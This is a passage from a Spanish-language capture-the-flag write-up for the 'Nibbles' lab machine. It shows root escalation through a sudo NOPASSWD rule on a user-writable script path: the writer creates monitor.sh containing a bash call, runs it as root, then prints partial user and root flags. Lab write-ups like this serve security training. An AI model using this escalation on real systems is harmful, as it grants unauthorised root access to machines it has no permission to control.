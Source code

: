 ```bash
nibbler@Nibbles:/$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Se identifica que es posible ejecutar el comando `/home/nibbler/personal/stuff/monitor.sh` con privilegios, así que vamos a ir a la ruta `/home/nibbler` y creamos las carpetas `personal` y `stuff`, debido a que no existen actualmente.

```bash
cd /home/nibbler/
mkdir -p personal/stuff
cd !$
```

Ingresamos a la ruta `/home/nibbler/personal/stuff` y creamos el script `monitor.sh` con el siguiente contenido.

```bash
nano monitor.sh
#!/bin/bash
bash
```

Asignamos permisos de ejecución.

```bash
chmod +x monitor.sh
```

Ejecutamos el comando y finalmente obtenemos acceso al sistema con un usuario privilegiado.

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
whoami
root
```

## FLAGS

Una vez tenemos acceso a la máquina, tenemos la posibilidad de leer la flag `user` y `root` 

```bash
#USER
find / -name user.txt 2>/dev/null | xargs head -c 10; echo
eb6f5526f2
```

```bash
#USER
find / -name root.txt 2>/dev/null | xargs head -c 10; echo
8ea802495e
```
